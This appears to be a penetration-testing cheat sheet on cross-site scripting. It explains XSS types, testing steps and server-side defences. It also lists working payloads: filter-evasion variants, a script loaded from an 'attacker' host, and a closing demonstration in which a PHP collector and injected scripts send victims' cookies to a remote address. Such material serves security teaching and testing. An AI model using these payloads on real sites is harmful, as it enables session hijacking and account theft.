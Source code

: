 # XSS

## Information
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into trusted website.

XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

OWASP TOP 10: A7-Cross-Site Scripting (XSS)

## Impact
Malicious script can access any cookies, session tokens, or other sensitive information

## Types of XSS
- **Stored XSS (Persistent XSS)**:
When an attacker injects malicious code into the vulnerable application and this content is permanently stored in a database. when victims visit a  vulnerable application page with the stored malicious code, that time their browser execute this code and victim get popup message.

- **Reflected XSS (Non-persistent)**:
When an attacker uses a malicious link, phishing email, or another social engineering technique to trap the victim into making a request to the server and this request contains malicious code. when victim click on link then browser receive a reply with the malicious code and executes it. 

- **DOM Based XSS**:
When the web application writes user input to the Document Object Model (DOM), then reads the data from the DOM and executes it in the browser.In DOM based XSS malicious code is not sent to the server which makes it difficult to detect by web application firewalls (WAFs).

## How to Test (Black Box Testing)
***1. Detect input vectors. For each web page***
- HTTP parameters
- POST data
- Hidden form field values
- Predefined Radio or Selection values

***2. Analyze each input vector to detect potential vulnerabilities***
- (greater than)>
- <(less than) 
- &(ampersand) 
- '(apostrophe or single quote) 
- "(double quote)
- e. g. <script>alert(123)</script>

***3. POC***
```
<script>alert(document.cookie)</script>
<script>alert(document.location)</script>
```

## HTML Filtered Content
- \n (new line) 
- \r (carriage return) 
- \' (apostrophe or single quote) 
- \" (double quote) 
- \\ (backslash) 
- \uXXXX (unicode values)

## Bypass XSS Filters 
Filters are based on a blacklist, they could not block every type of expressions

### e.g. payload’s:
***1. Different Syntax | Encoding***
```
" onfocus="alert(document.cookie)
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3cscript%3ealert(document.cookie)%3c/script%3e
```
***2. Bypassing non-recursive filtering***
```
<scr<script>ipt>alert(document.cookie)</script>
```
***3. Including external script***
```
<script src="http://attacker/xss.js"></script>
http://example/?var=<SRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

   - https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet (XSS Filter Evasion Cheat Sheet)
   - https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt
   - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

## XSS - Remediation     
### - Server-Side validation
1. [x] ***X-XSS-Protection***
```
X-XSS-Protection: 0                           -> xss filter disabled
X-XSS-Protection: 1                           -> xss filter enabled and sanitized the page if attack detected
X-XSS-Protection: 1; mode=block               -> xss filter enabled and prevented rendering the page if attack detected
X-XSS-Protection: 1; report=<reporting-uri>   -> xss filter enabled and reported the violation if attack detected
```
2. [x] Use ***HTTPOnly*** cookie flag: `Set-Cookie: key=123081792183asjgdhasd; HTTPOnly`

3. [x] Implement ***Content Security Policy***: `Content-Security-Policy: default-src: 'self'; script-src: 'self' static.domain.tld`
It's a browser side mechanism which allows you to create source allow lists for client side resources of your web application, e.g. JavaScript, CSS, images, etc. CSP via special HTTP header instructs the browser to only execute or render resources from those sources

***Refrence:*** https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection

### - Client(Application)/Server side validation

1. [x] HTML Encode Before Inserting Untrusted Data into HTML Element Content: `<body>...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.</body>`

2. [x] Attribute Encode Before Inserting Untrusted Data into HTML Common Attributes: `<div attr="...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.">content`

3. [x] JavaScript Encode Before Inserting Untrusted Data into JavaScript Data Values: `<script>alert('...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.')</script>'

4. [x] URL Encode Before Inserting Untrusted Data into HTML URL Parameter Values:`<a href="http://www.website.com?test=ENCODE UNTRUSTED DATA BEFORE PUTTING HERE">link</a>
`(when you want to put untrusted data into HTTP GET parameter value)

* [XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [Functions to Validate your Data](https://www.wordfence.com/learn/how-to-prevent-cross-site-scripting-attacks)


## XSS - Demonstration
Retrieve User Cookie Using XSS
1. Create ***steal.php*** file contect with below code.
```
<?php
$cookie=$_COOKIE['PHPSSID'];
$file=fopen('cookie.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```
2. Create ***cookie.txt*** file on same directory.
3. Host ***steal.php*** page publicaly which can accessible through internet.
4. Insert Script on Vulnerable Parameter.
```
<script>document.location="http://hostname/steal.php"</script>
e.g:
<script>document.location="http://192.168.88.128/steal.php"</script>

<img src=a onerror=confirm(document.location="http://192.168.88.130/steal.php?cookie=" + document.cookie;)>

```
